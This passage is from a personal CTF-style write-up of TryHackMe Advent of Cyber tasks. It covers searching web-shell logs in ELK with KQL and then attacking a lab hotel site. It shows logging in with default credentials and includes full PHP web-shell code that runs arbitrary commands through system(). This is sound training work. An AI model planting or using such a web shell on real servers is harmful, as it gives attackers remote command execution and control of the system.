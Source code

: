 and our date comes out to be **Dec 1, 2024 08:54:39.000**.

4. And as I mentioned in the start of this write-ip, the decoded command is `Install-WindowsUpdate -AcceptAll -AutoReboot`

# Day 3

**New Things Learnt**
* Learnt about Remote Code Execution (RCE) and how it can be exploited by uploading malicious files.
* Reverse Shells and Web Shell:
A Reverse Shell starts the connection on the target, and then connects back to the attacker's system.
A Web Shell is just running on the web server.

* Learnt more about navigating thru ELK(Elasticsearch, Logstash, and Kibana) using KQL(Kibana Query Language).
* Using KQL to craft a query to filter out the logs depending on the question.

For the first question, to find out where the web shell was uploaded to, we add the filter `message: shell.php` .
We see that our directory is `/media/images/rooms/shell.php`.

Second,  the IP of the attacker is visible under the **clientip** tab in that same log. Which is **10.11.83.34**

Now, we are going to approach this challenge from an attacking point of view. As a prerequisite, we were required to add `http://frostypines.thm` in our hosts file, by modifying a file called `hosts` by going to the `etc` folder in our AttackBox. 

When we finally enter the website, we will try to look for a place where the website takes an input.
This page would be our login page, now let's refer to the provided list of common login IDs and passwords: 

![Pasted image 20241206202900](https://github.com/user-attachments/assets/3c0dd72b-e958-470b-8aa9-747ed5be2c51)


and sure enough, `admin@frostypines.thm` as the email and admin as the password works perfectly.

Now that we're in the website, we need to find a place that takes in a file upload, and that would be when we try to add a new room. Here there's a file upload in the form of a room image. Now we need a script.

Going to `sublime` on our desktop and pasting in the code already provided on THM:

```html
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
